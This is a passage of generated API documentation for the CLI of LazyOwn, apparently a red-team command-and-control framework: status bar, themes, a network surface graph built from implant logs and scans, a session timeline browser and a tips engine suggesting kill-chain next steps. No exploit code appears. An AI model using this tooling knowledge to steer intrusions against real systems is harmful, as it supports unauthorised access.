- `render` (line 71) `def render(self, console, lines, tokens, config)`
- `render` (line 90) `def render(self, console, lines, tokens, config)`
- `render` (line 150) `def render(self, console, lines, tokens, config)`

#### `status_bar.py`
**Path:** `cli/status_bar.py`
**File Doc:** *Persistent operator status bar for the LazyOwn cmd2 shell.  The status bar collapses the four pieces of context an operator constantly reaches for into a single line embedded in the shell prompt:  [ target | phase | found: <last_finding> | next: <suggestion> ]  It replaces the round-trip of opening ``sessions/`` artefacts after every command. The renderer is wired into ``cmd2`` through a precommand hook so the bar is recomputed *before* each prompt is drawn, never blocking input.  Design constraints honoured here:  * Single Responsibility: every source class produces exactly one field. * Open / Closed: new fields are added by registering another :class:`IStatusSource`, never by editing the renderer. * Liskov: every source returns a ``str`` of bounded width. * Interface Segregation: the source protocol exposes only ``collect``. * Dependency Inversion: :class:`StatusBarManager` depends on the abstractions, never on ``LazyOwnShell`` or ``cmd2`` directly. * No magic numbers / hardcoded paths: every default lives in :class:`StatusBarConfig`; runtime overrides come from ``payload.json``. * Prompt-toolkit native ANSI: colour escapes are emitted raw because the cmd2 shell parses ANSI itself and paints GNU-readline ``\001 ... \002`` bytes as visible ``^A``/``^B`` glyphs. Marker fencing is opt-in via ``readline_safe=True`` for genuine readline consumers only.*

**Classes:**
- `StatusBarConfig` (line 41) `class StatusBarConfig` - *Immutable configuration container for the status bar subsystem.

Every tunable lives here. Operator overrides flow in through
:meth:`from_payload` which reads ``payload.json``; downstream code only
ever sees an instance of this class.*
- `StatusContext` (line 127) `class StatusContext` - *Immutable snapshot of the pieces the bar renders.

``operators`` is an opt-in fifth segment populated by
:class:`CollabPresenceSource`. Empty strings are treated as "field
disabled" by the renderer so the historical four-segment format remains
the default.*
- `IStatusSource` (line 143) `class IStatusSource(Protocol)` - *One-method protocol that every status source must satisfy.*
- `FileSystemReader` (line 151) `class FileSystemReader` - *Path-validated, size-bounded reader for ``sessions/`` artefacts.

The reader is the only filesystem entry point in this module. It
refuses anything that escapes the configured ``sessions_dir`` and
truncates reads to ``max_file_bytes`` so a runaway log never blows up
the prompt.*
- `PayloadTargetSource` (line 268) `class PayloadTargetSource` - *Status source: active target identifier.*
- `WorldModelPhaseSource` (line 292) `class WorldModelPhaseSource` - *Status source: current kill-chain phase.*
- `SessionFindingSource` (line 319) `class SessionFindingSource` - *Status source: most recent meaningful finding.*
- `CommandHintSuggestionSource` (line 416) `class CommandHintSuggestionSource` - *Status source: next command verb derived from kill-chain + phase priority.

Wraps :func:`cli.reactive_hints.command_hints` so the bar always
suggests an actionable CLI verb (``lazynmap``, ``gobuster``, ...)
instead of a graph-node label like a class name. The graph advisor
remains available as a secondary source for callers that need
arbitrary node lookups.*
- `GraphSuggestionSource` (line 508) `class GraphSuggestionSource` - *Status source: top next-step suggestion from the graph advisor.*
- `CollabPresenceSource` (line 590) `class CollabPresenceSource` - *Status source: number of active collaboration operators.

Reads ``sessions/operators.json`` (a snapshot written by
:mod:`modules.collab_bp` or its export hook). The file is expected to
contain ``{"operators": [{"name": ..., "last_seen": ..., "active": ...}]}``
where ``last_seen`` is a Unix timestamp. Operators older than
:attr:`StatusBarConfig.operator_stale_seconds` are filtered out so the
count reflects live presence and survives a server restart.*
- `StatusBarRenderer` (line 656) `class StatusBarRenderer` - *Compose a sanitised status line from a :class:`StatusContext`.*
- `StatusBarManager` (line 744) `class StatusBarManager` - *Lifecycle façade: collect → render → install on the cmd2 shell.

The manager is the single class ``lazyown.py`` touches. Everything
else in this module is a private collaborator. Tests instantiate this
class directly with hand-rolled doubles for sources and shell.*

**Functions:**
- `_operator_presence_enabled` (line 948) `def _operator_presence_enabled(payload, config)` - *Return ``True`` when the operator-presence segment should be wired in.*
- `build_default_manager` (line 969) `def build_default_manager(payload, sessions_dir, advisor_factory, config)` - *Wire the canonical multi-source manager used by the live shell.

When ``payload['enable_operator_presence']`` is truthy the manager is
extended with a fifth :class:`CollabPresenceSource` keyed
``operators``. The historical four-segment layout is preserved when
that flag is absent so existing operators see no change.

Args:
    payload: Loaded ``payload.json``.
    sessions_dir: Optional override for the sessions root. When given
        it replaces ``config.sessions_dir``.
    advisor_factory: Zero-arg callable returning a
        :class:`cli.graph_advisor.GraphAdvisor`. Optional.
    config: Optional explicit :class:`StatusBarConfig`. When omitted
        the config is derived from ``payload``.

Returns:
    A fully constructed :class:`StatusBarManager` ready for
    :meth:`StatusBarManager.install`.*
- `_hook` (line 915) `def _hook(data)`

**Methods:**
- `from_payload` (line 99) `def from_payload(cls, payload)` - *Return a config with overrides applied from a ``payload.json`` mapping.

Args:
    payload: The loaded ``payload.json`` dictionary, or ``None`` to
        accept the defaults verbatim.

Returns:
    A new :class:`StatusBarConfig` instance. Unknown keys are
    ignored so the framework never crashes on a malformed payload.*
- `collect` (line 146) `def collect(self)` - *Return the field value for this source as a plain string.*
- `__init__` (line 160) `def __init__(self, config, root)` - *Initialise with the active config and optional explicit root.

Args:
    config: The active :class:`StatusBarConfig`.
    root: Override for the resolved sessions directory. Defaults
        to ``config.sessions_dir`` relative to the current working
        directory.

Raises:
    ValueError: When ``config.max_file_bytes`` is non-positive.*
- `root` (line 179) `def root(self)` - *Return the resolved root directory backing this reader.*
- `read_text` (line 183) `def read_text(self, relative)` - *Return the contents of ``relative`` truncated to ``max_file_bytes``.

Args:
    relative: Path fragment under the sessions root. A leading
        separator is rejected; ``..`` escape attempts are rejected.

Returns:
    The file contents as text, or an empty string when the file
    is missing or unreadable.*
- `read_json` (line 204) `def read_json(self, relative)` - *Return parsed JSON from ``relative`` or ``None`` on failure.

Args:
    relative: Path fragment under the sessions root.

Returns:
    The decoded JSON object, or ``None`` when the file does not
    exist or contains invalid JSON.*
- `glob_latest` (line 222) `def glob_latest(self, pattern)` - *Return the most recently modified path matching ``pattern``.

Args:
    pattern: Glob expression evaluated relative to the sessions
        root. Patterns are constrained to the root via
        :meth:`_safe_path` once a match is selected.

Returns:
    The newest matching path, or ``None`` if no match exists.*
- `_safe_path` (line 247) `def _safe_path(self, relative)`
- `_is_within_root` (line 253) `def _is_within_root(self, candidate)`
- `_has_traversal` (line 261) `def _has_traversal(value)`
- `__init__` (line 271) `def __init__(self, config, payload)` - *Bind to the live config and a payload mapping.

Args:
    config: Active configuration.
    payload: ``payload.json`` mapping. ``None`` is treated as an
        empty payload — the source then falls back to
        ``config.fallback_target``.*
- `collect` (line 283) `def collect(self)` - *Return the first non-empty target key from ``payload.json``.*
- `__init__` (line 295) `def __init__(self, config, reader, payload)` - *Bind to config, sessions reader and payload mapping.*
- `collect` (line 306) `def collect(self)` - *Return the active phase from ``world_model.json`` then payload then default.*
- `__init__` (line 322) `def __init__(self, config, reader)` - *Bind to config and sessions reader.*
- `collect` (line 327) `def collect(self)` - *Return a short description of the freshest credential / vuln / note.*
- `_latest_credential` (line 335) `def _latest_credential(self)`
- `_latest_vuln` (line 345) `def _latest_vuln(self)`
- `_latest_note` (line 358) `def _latest_note(self)`
- `_last_line` (line 376) `def _last_line(self, path)`
- `_summarise_credential` (line 389) `def _summarise_credential(self, filename, line)`
- `_extract_vuln_items` (line 396) `def _extract_vuln_items(self, payload)`
- `__init__` (line 426) `def __init__(self, config, reader, phase_provider, hint_provider)` - *Bind to config, reader and the current-phase callable.

Args:
    config: Active configuration.
    reader: Sessions filesystem reader (used to discover the
        most recent command verb).
    phase_provider: Zero-arg callable returning the active
        phase identifier. Decoupled so the suggestion source
        does not duplicate the phase-detection logic.
    hint_provider: Optional override for the hint engine. When
        omitted the default :func:`cli.reactive_hints.command_hints`
        is resolved lazily so the import order stays clean.*
- `collect` (line 451) `def collect(self)` - *Return the top kill-chain suggestion or the configured fallback.*
- `_latest_command` (line 476) `def _latest_command(self)`
- `_default_provider` (line 500) `def _default_provider()`
- `__init__` (line 511) `def __init__(self, config, reader, advisor_factory)` - *Bind to config, reader, and an optional advisor factory.

Args:
    config: Active configuration.
    reader: Sessions filesystem reader.
    advisor_factory: Zero-arg callable returning an object that
        exposes ``suggest_next(recent_commands, limit)``. When
        ``None`` the source falls back to ``config.fallback_suggestion``.*
- `collect` (line 530) `def collect(self)` - *Return a one-token suggestion. Never raises.*
- `_recent_commands` (line 551) `def _recent_commands(self)`
- `_suggestion_label` (line 579) `def _suggestion_label(entry)`
- `__init__` (line 601) `def __init__(self, config, reader, clock)` - *Bind to the active config, reader, and an injectable clock.

Args:
    config: Active configuration.
    reader: Sessions reader (the only filesystem entry point).
    clock: Zero-argument callable returning the current Unix
        timestamp. Defaults to :func:`time.time`; tests inject a
        fixed value for determinism.*
- `collect` (line 622) `def collect(self)` - *Return the active-operator count formatted as a short string.*
- `_extract_entries` (line 636) `def _extract_entries(payload)`
- `_is_active` (line 646) `def _is_active(entry, threshold)`
- `__init__` (line 659) `def __init__(self, config)` - *Bind to the active configuration.*
- `render_plain` (line 664) `def render_plain(self, ctx)` - *Return the line without ANSI colour or readline markers.*
- `render_prompt` (line 687) `def render_prompt(self, ctx, base_prompt, color_open, color_close, readline_safe)` - *Return ``base_prompt`` with the status line prefixed.

Args:
    ctx: The context snapshot to render.
    base_prompt: Existing prompt string (may already contain ANSI).
    color_open: Optional ANSI prefix override. When ``None`` the
        renderer falls back to :attr:`StatusBarConfig.color_open`.
    color_close: Optional ANSI suffix override. When ``None`` the
        renderer falls back to :attr:`StatusBarConfig.color_close`.
    readline_safe: When ``True`` wrap inserted ANSI escapes with
        GNU-readline zero-width markers. Defaults to ``False``
        because the cmd2/prompt_toolkit shell renders those
        markers as visible ``^A``/``^B`` glyphs.

Returns:
    A new prompt string with the status line joined above
    ``base_prompt``.*
- `_sanitise` (line 724) `def _sanitise(self, value, max_chars)`
- `__init__` (line 752) `def __init__(self, config, sources, renderer, payload)` - *Bind config, sources, renderer and a payload mapping.

Args:
    config: Active configuration.
    sources: Mapping with mandatory keys ``target``, ``phase``,
        ``finding``, ``suggestion``. Each value must be an
        :class:`IStatusSource`.
    renderer: Renderer instance.
    payload: Optional ``payload.json`` mapping used to evaluate
        the enabled flag.

Raises:
    KeyError: When a mandatory source key is missing.*
- `enabled` (line 783) `def enabled(self)` - *Return ``True`` when the bar should render on this shell.*
- `collect_context` (line 798) `def collect_context(self)` - *Return a fresh :class:`StatusContext` by polling every source.*
- `render_prompt` (line 811) `def render_prompt(self, base_prompt, readline_safe)` - *Return the prompt with the status line prefixed when enabled.

The active TUI theme is resolved on every call so a live
``set tui_theme bright`` updates the prompt colour on the next
prompt without restarting the shell.*
- `_resolve_theme_colors` (line 823) `def _resolve_theme_colors(self)` - *Return ``(open, close)`` ANSI sequences from the active theme.*
- `render_plain_line` (line 833) `def render_plain_line(self, ctx)` - *Return the rendered status line without ANSI / readline markers.

Args:
    ctx: Optional pre-collected context. When ``None`` the
        manager collects a fresh one.

Returns:
    The plain status line. Useful for the ``status_bar show``
    verb when colour escapes would clutter operator scripts.*
- `set_enabled` (line 847) `def set_enabled(self, enabled)` - *Persist a new enabled state in the payload-backed flag.

The payload mapping passed to the manager is mutated in place so
subsequent ``enabled`` reads reflect the change without a config
reload. Non-mapping payloads are ignored.*
- `install` (line 857) `def install(self, shell, base_prompt_attribute, prompt_attribute)` - *Wire the manager into ``shell`` via a precommand hook.

Args:
    shell: The :class:`cmd2.Cmd` instance.
    base_prompt_attribute: Attribute on the shell that holds the
        static prompt (used as the suffix on every refresh).
    prompt_attribute: Attribute on the shell that cmd2 reads when
        drawing the prompt.

Returns:
    ``True`` when the hook was registered, ``False`` otherwise.
    Failure is always silent — the shell must boot even when the
    status bar cannot be installed.*
- `_build_precmd_hook` (line 895) `def _build_precmd_hook(self, shell, base_prompt, base_prompt_attribute, prompt_attribute)` - *Return a cmd2-compatible precmd hook or ``None`` when cmd2 is absent.

cmd2 enforces strict type annotations on hook callables — the
single parameter and the return type must both be
``cmd2.plugin.PrecommandData``. The closure built here therefore
binds those exact annotations at install time so the hook passes
``Cmd._validate_prepostcmd_hook``.*
- `_safe_collect` (line 929) `def _safe_collect(self, key)`
- `_fallback_for` (line 938) `def _fallback_for(self, key)`

#### `style.py`
**Path:** `cli/style.py`
**File Doc:** *Centralised TUI style tokens for the LazyOwn operator surface.  This module is a thin semantic layer over :mod:`cli.themes`. It exposes a small, stable set of tokens (``title``, ``accent``, ``hint``...) so that callers -- the cmd2 prompt, the post-command hint line, the daily tip, the splash overlay -- never reference raw ANSI escape codes or theme names directly. Switching the active theme re-paints every surface that imports from this module without any change in call sites.  Design notes:  - Single Responsibility: only token -> style resolution lives here. No I/O, no payload reading, no printing. Callers pass the payload mapping in when they need theme resolution. - Open/Closed: new tokens are added by extending :data:`TOKEN_KEYS`; the resolver does not change. - Dependency Inversion: callers depend on the :func:`style` / :func:`paint` functions, never on :mod:`cli.themes` directly. The underlying theme module can be swapped without touching consumers. - No magic strings: every token key is declared in :data:`TOKEN_KEYS`.*

**Functions:**
- `style` (line 49) `def style(token, theme)` - *Return the Rich style string for a semantic token.

Args:
    token: One of :data:`TOKEN_KEYS`. Unknown tokens fall back to
        ``"white"`` rather than raising -- callers may pass
        user-influenced keys without crashing the prompt.
    theme: Optional pre-resolved :class:`cli.themes.Theme`. When
        ``None`` the default theme is used.

Returns:
    A Rich-compatible style string (e.g. ``"bold cyan"``).*
- `active_tokens` (line 68) `def active_tokens(payload)` - *Resolve every :data:`TOKEN_KEYS` entry for the payload's theme.

Args:
    payload: Loaded ``payload.json`` mapping. ``None`` returns
        the default theme tokens.

Returns:
    Dict mapping each token key to a Rich style string. Useful
    when a surface wants to render multiple tokens without
    re-resolving the theme per call.*
- `paint` (line 84) `def paint(text, token, payload)` - *Render ``text`` with the style of ``token`` for the active theme.

Args:
    text: Raw text to render. No markup parsing.
    token: Semantic token from :data:`TOKEN_KEYS`.
    payload: Optional payload mapping; ``None`` uses defaults.

Returns:
    A :class:`rich.text.Text` instance ready to print or compose.*
- `render_prompt` (line 98) `def render_prompt(console, segments, payload)` - *Print a themed prompt line composed of ``(text, token)`` pairs.

The function does not terminate with a newline; cmd2's prompt
machinery appends the trailing space. Each segment is coloured
using the resolved theme, and segments are joined with a dim
separator so the prompt reads as a single visual unit.

Args:
    console: A :class:`rich.console.Console` the shell already
        uses for output.
    segments: Ordered list of ``(text, token)`` pairs. Tokens come
        from :data:`TOKEN_KEYS`. An empty list is a no-op.
    payload: Optional payload mapping. When ``None`` the default
        theme is used; passing a payload lets the call site pick
        the operator's chosen theme.

Returns:
    None. The result is written to ``console`` directly.*

#### `surface_graph.py`
**Path:** `cli/surface_graph.py`
**File Doc:** *Network surface graph reader for the LazyOwn shell.  Mirrors the ``vis.js`` graph rendered by ``templates/index.html`` (consumed by ``lazyc2.py``), but works entirely from the filesystem artefacts inside ``sessions/`` so the cmd2 shell can render the same picture without running the Flask server.  The graph has the same five-node taxonomy as the web UI:  * ``c2``      — the LazyOwn operator station (root). * ``client``  — an active implant (one ``sessions/<client_id>.log`` file). * ``host``    — a discovered remote host (from ``hostsdiscovery.txt`` or ``scan_discovery*.csv``, or surfaced via an implant's ``discovered_ips`` column). * ``port``    — an open TCP/UDP port on a discovered host. * ``service`` — banner/version metadata attached to a port when known.  Data sources, in priority order:  * ``sessions/hostsdiscovery.txt``        — newline-delimited IPs. * ``sessions/scan_discovery_*.csv``      — ``;``-quoted IP/PORT/SERVICE. * ``sessions/<client_id>.log``           — per-implant CSV with the ``discovered_ips`` and ``result_portscan`` columns. * ``payload.json``                       — local C2 host/port (``lhost``, ``c2_port``) for the root node. * ``sessions/os.json``                   — current target OS hint.  The module is pure data: it returns plain dataclasses + ``to_dict`` so the result is equally usable from a Rich/Textual renderer, an MCP response or*

**Classes:**
- `SurfaceNode` (line 87) `class SurfaceNode` - *A node in the network surface graph.

Args:
    id: Stable string identifier (e.g. ``host-10-0-0-1``).
    kind: One of ``c2``, ``client``, ``host``, ``port``, ``service``.
    label: Human-readable label rendered in the TUI.
    metadata: Free-form structured attributes from the source file.*
- `SurfaceEdge` (line 113) `class SurfaceEdge` - *A directed edge between two surface nodes.*
- `SurfaceGraph` (line 126) `class SurfaceGraph` - *Aggregate snapshot of nodes + edges discovered on disk.*
- `SurfaceGraphConfig` (line 174) `class SurfaceGraphConfig` - *Configuration for :class:`SurfaceGraphBuilder`.

Args:
    sessions_dir: Path to the ``sessions/`` directory.
    payload_path: Path to ``payload.json`` (read for ``lhost``,
        ``c2_port``).
    include_local_ips_as_hosts: When true, attach each local IP as a
        ``host`` node so the C2 is visible alongside the targets.
    skip_log_basenames: Implant logs that should never be treated as
        beacons (e.g. ``access``).*
- `SurfaceGraphBuilder` (line 196) `class SurfaceGraphBuilder` - *Compose a :class:`SurfaceGraph` from on-disk session artefacts.*

**Functions:**
- `_slug_host` (line 75) `def _slug_host(ip)` - *Return the canonical ``host-<dotted-ip>`` id used by the web graph.*
- `_slug_port` (line 80) `def _slug_port(host_id, port, protocol)` - *Return a stable port-node id rooted at ``host_id``.*
- `build_surface_graph` (line 633) `def build_surface_graph(sessions_dir, payload_path)` - *Convenience factory: build a graph from on-disk artefacts.

Args:
    sessions_dir: Path to the LazyOwn sessions directory.
    payload_path: Path to ``payload.json``.

Returns:
    A populated :class:`SurfaceGraph`.*
- `iter_descendants` (line 650) `def iter_descendants(graph, root_id)` - *Yield every node reachable from ``root_id`` via outgoing edges.*

**Methods:**
- `to_dict` (line 102) `def to_dict(self)` - *Return a JSON-serialisable view of the node.*
- `to_dict` (line 120) `def to_dict(self)` - *Return a JSON-serialisable view of the edge.*
- `to_dict` (line 135) `def to_dict(self)` - *Return a JSON-serialisable view (mirrors the web UI payload).*
- `stats` (line 146) `def stats(self)` - *Return per-kind node counts plus edge count.*
- `children_of` (line 153) `def children_of(self, node_id)` - *Return nodes that ``node_id`` points to via an outgoing edge.*
- `get` (line 165) `def get(self, node_id)` - *Return the node with ``node_id`` or ``None``.*
- `__init__` (line 199) `def __init__(self, config)`
- `build` (line 202) `def build(self)` - *Read every session artefact and return the assembled graph.*
- `_kind_order` (line 331) `def _kind_order(kind)`
- `_build_c2_node` (line 341) `def _build_c2_node(self, local_ips, payload)`
- `_discover_local_ips` (line 359) `def _discover_local_ips(self)`
- `_fallback_local_ips` (line 380) `def _fallback_local_ips()`
- `_load_payload` (line 386) `def _load_payload(self)`
- `_read_os_hint` (line 399) `def _read_os_hint(self)`
- `_read_hostsdiscovery` (line 414) `def _read_hostsdiscovery(self, local_ips)` - *Collect discovery IPs from every hosts discovery file.*
- `_read_scan_discovery` (line 436) `def _read_scan_discovery(self, local_ips)` - *Collect port records from every scan CSV plus nmap normal output.*
- `_read_scan_csv` (line 442) `def _read_scan_csv(self, local_ips)`
- `_read_scan_nmap` (line 467) `def _read_scan_nmap(self, local_ips)` - *Parse nmap normal output (``-oN``) for hosts and open ports.

Reads ``Nmap scan report for <ip|name (ip)>`` headers plus the
``PORT STATE SERVICE`` table, keeping ``open`` rows only. Output
records share the CSV shape (ip/port/protocol/service/version).*
- `_read_implants` (line 525) `def _read_implants(self)`
- `_read_last_implant_row` (line 542) `def _read_last_implant_row(self, path)`
- `_parse_implant_row` (line 559) `def _parse_implant_row(self, row)`
- `_parse_port_scan` (line 580) `def _parse_port_scan(self, raw)`
- `_is_ipv4` (line 616) `def _is_ipv4(value)`
- `_client_label` (line 622) `def _client_label(client_id, meta)`

#### `surface_tui.py`
**Path:** `cli/surface_tui.py`
**File Doc:** *Terminal renderer for the LazyOwn network surface graph.  This is the TUI counterpart of the ``vis.js`` graph rendered by ``templates/index.html``. It walks the :class:`~cli.surface_graph.SurfaceGraph` that :class:`~cli.surface_graph.SurfaceGraphBuilder` assembled from ``sessions/`` and ``payload.json`` and offers three rendering modes so it plugs into any operator workflow:  * :func:`render_static` — print a Rich tree once and return; ideal for the ``do_surface`` cmd2 command in non-interactive shells. * :func:`launch_tui`    — open a full-screen Textual app with a navigable tree + detail pane (Q to quit, R to refresh). * :func:`render_json`   — emit the graph as JSON for piping into other tools or feeding the MCP layer.  The module degrades cleanly when ``textual`` is missing: only the TUI launcher requires it, and it raises a typed :class:`TextualNotInstalled` that the caller can translate into an operator-friendly message.*

**Classes:**
- `TextualNotInstalled` (line 61) `class TextualNotInstalled(RuntimeError)` - *Raised when the optional ``textual`` dependency is unavailable.*
- `SurfaceExplorer` (line 130) `class SurfaceExplorer(App)` - *Two-pane Textual app: surface tree + selected-node metadata.*

**Functions:**
- `render_static` (line 65) `def render_static(graph, sessions_dir, payload_path, console)` - *Render the surface graph as a Rich tree and return it.

Args:
    graph: Optional prebuilt graph. When ``None``, the function reads
        ``sessions_dir`` and ``payload_path`` to build one.
    sessions_dir: Path to the LazyOwn sessions directory.
    payload_path: Path to ``payload.json``.
    console: Optional Rich console; a new stdout console is created
        when ``None``.

Returns:
    The :class:`SurfaceGraph` that was rendered (useful for tests).*
- `render_json` (line 92) `def render_json(graph, sessions_dir, payload_path)` - *Return the surface graph as a JSON string.

Args:
    graph: Optional prebuilt graph; built on demand when ``None``.
    sessions_dir: Path to the LazyOwn sessions directory.
    payload_path: Path to ``payload.json``.

Returns:
    A pretty-printed JSON document mirroring the dict returned by
    :meth:`SurfaceGraph.to_dict`.*
- `launch_tui` (line 112) `def launch_tui(sessions_dir, payload_path)` - *Open the full-screen Textual surface explorer.

Args:
    sessions_dir: Path to the LazyOwn sessions directory.
    payload_path: Path to ``payload.json``.

Raises:
    TextualNotInstalled: When the ``textual`` package is missing.*
- `_build_rich_tree` (line 214) `def _build_rich_tree(graph)`
- `_attach_children` (line 223) `def _attach_children(parent, graph, parent_id, seen)`
- `_styled_label` (line 232) `def _styled_label(node)`
- `_stats_table` (line 241) `def _stats_table(graph)`
- `_render_node_detail` (line 260) `def _render_node_detail(data)`

**Methods:**
- `__init__` (line 148) `def __init__(self, sessions_dir, payload_path)`
- `compose` (line 154) `def compose(self)`
- `on_mount` (line 161) `def on_mount(self)`
- `action_refresh` (line 164) `def action_refresh(self)`
- `action_expand_all` (line 168) `def action_expand_all(self)`
- `action_collapse_all` (line 172) `def action_collapse_all(self)`
- `on_tree_node_selected` (line 176) `def on_tree_node_selected(self, event)`
- `_reload_graph` (line 185) `def _reload_graph(self)`
- `_add_children` (line 205) `def _add_children(self, parent_node, graph, parent_id)`

#### `themes.py`
**Path:** `cli/themes.py`
**File Doc:** *Theme registry for the LazyOwn TUI surfaces.  Every Textual overlay (Cmd-K palette, sessions browser, timeline scrubber, command form, graph overlay) and the persistent status bar pull their colour tokens from this module. Themes are pure data: a name plus a mapping from semantic role to a Rich-compatible style string. Consumers look up styles by role, never by raw colour, so adding a new theme is one constant declaration and every surface follows along.  Design notes:  - Single Responsibility: only theme registration and lookup live here. No widget, no I/O. The active theme is selected by the operator via the ``tui_theme`` payload key; this module never touches ``payload.json`` directly. - Open/Closed: new themes are added to :data:`THEMES`; the resolver does not change. - Dependency Inversion: callers depend on the :class:`Theme` dataclass, never on the underlying terminal capabilities. - No magic numbers/strings: every role and colour lives in one of the declared :class:`Theme` constants below.*

**Classes:**
- `Theme` (line 31) `class Theme` - *Immutable mapping from semantic UI role to Rich style string.

Attributes:
    name: Stable identifier used by ``payload.json["tui_theme"]``.
    title: Style for primary headings (titles, modal headers).
    subtitle: Style for secondary headings and helper text.
    accent: Style for highlighted tokens (matches, focused items).
    muted: Style for inactive entries and field labels.
    border: Style for panel borders and dividers.
    success: Style for positive markers (ok, completed, found).
    warning: Style for cautionary markers.
    danger: Style for destructive or error markers.
    hint: Style for the inline reactive hint footer.
    bar_open: Raw ANSI prefix written by the status bar.
    bar_close: Raw ANSI suffix written by the status bar.*

**Functions:**
- `get_theme` (line 222) `def get_theme(name)` - *Return the registered :class:`Theme` for ``name`` with safe fallback.

Args:
    name: Theme identifier as written in ``payload.json["tui_theme"]``.
        ``None`` or unknown names fall back to :data:`DEFAULT_THEME_NAME`.

Returns:
    The matching :class:`Theme`. Never raises.*
- `theme_from_payload` (line 238) `def theme_from_payload(payload)` - *Return the theme selected by ``payload["tui_theme"]``.

Args:
    payload: Loaded ``payload.json`` mapping. ``None`` returns the
        default theme.

Returns:
    The resolved :class:`Theme`.*

#### `timeline_browser.py`
**Path:** `cli/timeline_browser.py`
**File Doc:** *Textual scrubber over ``sessions/LazyOwn_session_report.csv``.  The session report is a CSV that every command appends to. The scrubber turns it into a paginated, searchable, key-driven view so the operator can replay decisions, jump to artefacts and answer questions like "what was the gobuster command we ran last week?" without leaving the shell.  Design (SOLID):  - Single Responsibility: :class:`TimelineConfig` owns constants, :class:`TimelineEntry` is the immutable row, :class:`TimelineReader` loads CSV rows lazily, :class:`TimelineState` slices and filters, :class:`TimelineBrowserApp` renders. - Open/Closed: a new column is one tuple entry in :attr:`TimelineConfig.columns`. - Dependency Inversion: the app is always built from a :class:`TimelineState` so tests bypass Textual entirely. - No magic numbers / hardcoded paths: every value lives in the config.*

**Classes:**
- `TimelineColumn` (line 33) `class TimelineColumn` - *Descriptor for a single column rendered by the scrubber.*
- `TimelineConfig` (line 43) `class TimelineConfig` - *Centralised constants for the scrubber.*
- `TimelineEntry` (line 65) `class TimelineEntry` - *Immutable row exposed to consumers of :class:`TimelineState`.*
- `TimelineReader` (line 72) `class TimelineReader` - *Read the CSV report into a list of :class:`TimelineEntry` records.*
- `TimelineState` (line 122) `class TimelineState` - *Filtering + selection state shared with the Textual app.*
- `_TimelineBrowserApp` (line 213) `class _TimelineBrowserApp(App)`

**Functions:**
- `build_state` (line 157) `def build_state(payload, sessions_dir, config)` - *Wire the canonical state used by :func:`launch_scrubber`.*
- `launch_scrubber` (line 169) `def launch_scrubber(payload, state, runner)` - *Open the scrubber and return the highlighted row index on exit.

Args:
    payload: Loaded ``payload.json``.
    state: Optional pre-built state (tests inject one).
    runner: Optional callable replacing the real Textual app.

Returns:
    The 0-based row index the operator last highlighted, or ``None``
    when the scrubber was closed without selection / Textual is
    unavailable.*
- `_build_app` (line 202) `def _build_app(state, theme)`

**Methods:**
- `__init__` (line 75) `def __init__(self, config, root)` - *Bind to config and resolve the sessions root.*
- `root` (line 81) `def root(self)` - *Return the resolved sessions root.*
- `read` (line 85) `def read(self)` - *Return the parsed entries, newest last.*
- `_coerce_row` (line 103) `def _coerce_row(self, row)`
- `reload` (line 130) `def reload(self)` - *Drop the cache so the next :meth:`entries` call re-reads disk.*
- `entries` (line 134) `def entries(self)` - *Return filtered entries; reads disk on the first call.*
- `column_value` (line 148) `def column_value(self, entry, column)` - *Return the first non-empty value among ``column.source_keys``.*
- `__init__` (line 228) `def __init__(self)`
- `compose` (line 234) `def compose(self)`
- `on_mount` (line 242) `def on_mount(self)`
- `on_input_changed` (line 249) `def on_input_changed(self, event)`
- `on_data_table_row_highlighted` (line 253) `def on_data_table_row_highlighted(self, event)`
- `action_refresh` (line 259) `def action_refresh(self)`
- `action_close` (line 263) `def action_close(self)`
- `_rebuild_rows` (line 266) `def _rebuild_rows(self)`
- `_refresh_detail` (line 278) `def _refresh_detail(self, row_index)`

#### `tips_engine.py`
**Path:** `cli/tips_engine.py`
**File Doc:** *Unified post-command tips engine: single coordination point for all suggestion surfaces.  Before this module, the shell registered five independent postcmd hooks that rendered suggestion lines without coordination: - ``_inline_hint_hook``: kill-chain adjacency hints (reactive_hints.py) - ``_engagement_hook``: curiosity/VRI/ELO rewards (engagement_hooks.py) - ``_autosuggest_hook``: ghost-text next-command (autosuggest.py) - ``_toast_hook``: event toasts (toasts.py) - ``_recording_hook``: makerc recording  Each hook computed its own context, parsed the same transcript, and produced overlapping or contradictory advice. The operator saw up to five different "You should run X" lines with no coordination.  This module collapses them into one logical chain of thought:  1.  **Kill-chain adjacency hints** — fast, deterministic follow-ups from ``_KILL_CHAIN_NEXT`` and ``_PHASE_PRIORITY`` tables. 2.  **Contextual tips** — triggers that match session state (OS, phase, creds found) to surface rarely-discovered commands. 3.  **Curiosity reveal** — one undiscovered command from the same phase, varying within the session. 4.  **Auto-suggest refresh** — ghost-text for the next prompt (press '.'). 5.  **VRI reward** — variable-interval reinforcement at unpredictable command counts. 6.  **ELO / karma scoring** — persistent skill tracking.  All rendering is non-blocking and respects ``ui_hints`` level. A misbehaving surface is silently skipped; the rest continue.*

**Classes:**
- `TipsConfig` (line 137) `class TipsConfig` - *Centralised configuration for the unified tips engine.

Every magic number, path, and lookup table lives here so the engine
is testable without touching the filesystem and tunable without
editing the engine itself.*
- `TipsEngine` (line 186) `class TipsEngine` - *Coordinate all post-command suggestion surfaces into one render pass.

The engine holds no per-call state beyond the injected config and a
reference to the autosuggest engine. Engagement state is persisted to
disk via ``sessions/engagement_state.json``.*

**Functions:**
- `_noop` (line 132) `def _noop()` - *Empty display callback used when no killchain surface is wired.*
- `_render_streak` (line 1103) `def _render_streak(ctx, state, config)`
- `_render_exploration` (line 1124) `def _render_exploration(ctx, state, config)`
- `_render_phase_badge` (line 1142) `def _render_phase_badge(ctx, state, config)`
- `_render_hidden_feature` (line 1160) `def _render_hidden_feature(ctx, state, config)`
- `_render_arsenal_tip` (line 1180) `def _render_arsenal_tip(ctx, state, config)`
- `build_default_tips_config` (line 1240) `def build_default_tips_config()` - *Build a :class:`TipsConfig` populated from the live framework tables.

Returns:
    A ready-to-use config wired to the static kill-chain tables, ELO
    tables, and tip registries that ship with the framework.*

**Methods:**
- `__init__` (line 194) `def __init__(self, config, autosuggest_engine)` - *Wire the engine with its configuration and optional autosuggest handle.

Args:
    config: Centralised configuration. Built from defaults when omitted.
    autosuggest_engine: An :class:`cli.autosuggest.AutoSuggestEngine` instance
        (or any object exposing ``refresh``, ``current``, ``enabled``).*
- `enabled` (line 221) `def enabled(self)` - *Whether the engine renders any output.*
- `set_enabled` (line 225) `def set_enabled(self, value)` - *Toggle rendering without dropping state.*
- `render` (line 229) `def render(self, cmd, phase)` - *Run all surfaces for the given command.

Args:
